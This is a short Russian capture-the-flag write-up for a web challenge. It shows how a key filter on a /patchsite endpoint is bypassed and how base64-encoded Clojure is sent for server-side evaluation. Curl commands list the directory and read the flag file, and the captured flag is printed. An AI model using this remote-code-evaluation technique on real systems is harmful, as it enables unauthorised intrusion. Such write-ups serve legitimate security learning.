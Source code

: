 1. Мы посмотрели в исходники по которым понятно что есть форма /patchsite которая принимает 2 параметра, key и command
- длинна key >10 <15 
- последовательность ert удаляется
- пробелы в начале и конце удаляются 
- после итоговой обработки должен ыть равен qwerty
key берем например "      qweertrty"
- command это base64 от clojure кода который обрезан по =, и эвалюейтится (соответственно добиваем пробелами код, что бы не было пидинга)
2. Курим как в clojure работать с fs 

- (seq (.list (clojure.java.io/file ".") ) ) - листинг текущей директории
- (slurp "filname") вывод фаила

$ curl -XPOST http://filter.ctf2019.rocks/patchsite -d'key=      qweertrty&command=KHNlcSAoLmxpc3QgKGNsb2p1cmUuamF2YS5pby9maWxlICIuIikgKSAp'
targetflagsrcproject.clj

$ curl -H "Host: filter.ctf2019.rocks" http://92.223.25.115/patchsite -d'key=      qweertrty&command=KHNsdXJwICJmbGFnIiAp'
  WGCTF{83679AB7B512F757C5B86F3908D1579E}

3. secret-view генерит доп флаг, по кондишенам получаем строку abababababababab от которой надо взять md5 хеш

